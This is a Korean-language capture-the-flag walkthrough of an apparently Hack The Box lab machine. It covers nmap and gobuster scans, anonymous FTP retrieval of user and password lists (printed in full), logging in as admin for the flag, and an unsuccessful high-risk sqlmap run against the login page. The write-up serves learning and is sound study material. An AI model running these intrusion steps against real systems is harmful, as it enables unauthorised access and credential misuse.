

이번 문제 역시 nmap으로 먼저 스캔을 해보자. 스캔할때는 기본적으로 `-sC`와 `-sV`를 붙이는게 좋을 것 같다.
``` bash
 read-min 🎉   ~  nmap -sV -sC 10.129.1.15
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-04 18:01 KST
Nmap scan report for 10.129.1.15
Host is up (0.27s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
21/tcp   open     ftp            vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.49
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp   open     http           Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
902/tcp  filtered iss-realsecure
1061/tcp filtered kiosk
1071/tcp filtered bsquare-voip
1130/tcp filtered casp
1185/tcp filtered catchpole
7741/tcp filtered scriptview
8701/tcp filtered unknown
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.08 seconds
```
위와 같이 결과를 얻었는데 흥미로운 부분이 벌써 보인다. ftp login 허용과 관련된 부분이 보인다.
``` bash
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd

```

ftp 접속 후 존재하는 파일을 다운로드하였다.
``` bash
 read-min 🎉   ~  ftp 10.129.1.15

Connected to 10.129.1.15.
220 (vsFTPd 3.0.3)
Name (10.129.1.15:km): anonymous
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
```

다운로드한 파일의 내용은 각각 아래와 같다.
``` bash
 read-min 🎉   ~  cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
 read-min 🎉   ~  cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

계정에 대한 정보는 획득한 것 같은데, 어디에 사용할지 알 수 없다. 우선 80 port에 http 서비스가 존재하여 gobuster로 스캔하였다.
``` bash
# gobuster dir -u http://10.129.1.15 -w dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.1.15
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 311] [--> http://10.129.1.15/assets/]
/js                   (Status: 301) [Size: 307] [--> http://10.129.1.15/js/]
/css                  (Status: 301) [Size: 308] [--> http://10.129.1.15/css/]
/fonts                (Status: 301) [Size: 310] [--> http://10.129.1.15/fonts/]
/.htaccess            (Status: 403) [Size: 276]
/config.php           (Status: 200) [Size: 0]
/login.php            (Status: 200) [Size: 1577]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/dashboard            (Status: 301) [Size: 314] [--> http://10.129.1.15/dashboard/]
/.htpasswd            (Status: 403) [Size: 276]
/.htpasswds           (Status: 403) [Size: 276]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
```

기본적으로 아래와 같이 별도의 로그인 화면은 존재하지 않지만, 스캔 결과를 보면 `config.php`, `login.php` 등이 있는 것을 알 수 있다.


config.php는 접근해도 별 다른 정보가 없는 페이지이다. 대신 login.php 접근 시 아래와 같이 로그인 폼이 존재하는 것을 확인할 수 있다.


이전에 획득한 admin 계정의 암호로 로그인 시 성공적으로 flag 획득이 가능하다.


문제 풀이 완료 후 로그인 페이지에 대해 sql injection이 가능한지 확인해보고 싶었다. 그래서 이전에 사용한적 있는 sqlmap을 이용해보았다. 스캔 시간이 꽤 오래 걸렸지만, 별도로 나온 결과는 없다.
``` bash
sqlmap -u "http://10.129.44.43/login.php" --batch --risk=3 --level=5 --dbs
```

